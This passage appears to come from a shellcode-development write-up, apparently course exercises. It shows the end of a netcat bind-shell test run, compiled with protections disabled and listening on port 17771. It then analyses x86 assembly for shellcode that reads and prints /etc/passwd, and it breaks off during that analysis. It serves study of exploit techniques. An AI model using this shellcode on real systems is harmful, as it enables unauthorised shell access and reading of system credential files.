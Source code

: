 ```bash
        ret();
}

$ gcc -fno-stack-protector -z execstack netcat-new.c -o netcat-new
$ ./netcat-new 
Shellcode Length: 80
listening on [any] 17771 ...
```

Finally, we have a shellcode with length 80 and the original shellcode has length 58, so we have increased the shellcode 37.93%.



#### Linux x86 file reader

I got the shellcode from http://shell-storm.org/shellcode/files/shellcode-73.php


##### Shellcode Analysis #####
This shellcode uses the jump call pop technique to get the string with the file path, and it is using four syscalls, sys\_open, sys\_read, sys\_write and sys\_exit.

First, get the filename:

```asm
	jmp	two
one:
	pop	ebx
...
two:
	call	one
	.string db "/etc/passwd"
```

Second, open the file and save the file descriptor:

```asm
	pop	ebx
	mov	al, 5
	xor	ecx, ecx
	int	0x80
	mov	esi, eax
```

Third, read and write character by character until EOF:

```asm
read:
	mov	ebx, esi
	mov	al, 3
	sub	esp, 1
	lea	ecx, [esp]
	mov	dl, 1
	int	0x80

	xor	ebx, ebx
	cmp	ebx, eax
	je	exit

	mov	al, 4
	mov	bl, 1
	mov	dl, 1
	int	0x80
	
	add	esp, 1
	jmp	read

```
